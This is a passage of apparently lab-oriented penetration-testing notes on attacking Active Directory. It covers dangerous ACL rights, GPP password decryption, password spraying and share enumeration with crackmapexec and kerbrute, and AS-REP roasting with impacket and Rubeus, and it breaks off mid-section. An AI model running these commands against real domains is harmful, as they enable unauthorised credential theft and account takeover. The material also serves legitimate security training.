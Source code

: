 **Object's Permissions**

* **GenericAll**: Full permissions on object
* **GenericWrite**: Edit certain attributes on the object
* **WriteOwner**: Change ownership of the object
* **WriteDACL**: Edit ACE's applied to object
* **AllExtendedRights**: Change password, reset password, etc.
* **ForceChangePassword**: Password change for object
* **Self (Self-Membership)**: Add ourselves to for example a group

**Group Policy Password Decryption**

Usually you can find policies backup in the SYSVOL share on the Domain Controller

```bash
kali@kali: gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

### Password Attacks

**Inspect Password Policy**: `net accounts`

Crackmap Exec with SMB protocol:

1. Password Spray:
    ```bash
    crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
    ```
2. List shares:
    ```bash
    crackmapexec smb 192.168.50.75 -u celia.almeda -p 'Nexus123!' -d corp.com --shares
    ```
3. Password Policy
    ```bash
    crackmapexec smb 192.168.50.75 -u celia.almeda -p 'Nexus123!' -d corp.com --pass-pol
    ```

*Crackmap doesn't evaluate the policy, be cautious with account lockouts.*

Crackmap adds **"Pwn3d!"** to the output, indicating that user has administrative privileges on the target system.

**Kerbrute**

```cmd
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

**AS-REP Roasting**

Needs authenticated user

Multi Platform:

* On Kali: `impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete`
* On Windows: `.\Rubeus.exe asreproast /nowrap`

To crack AS-REP Hashes: 
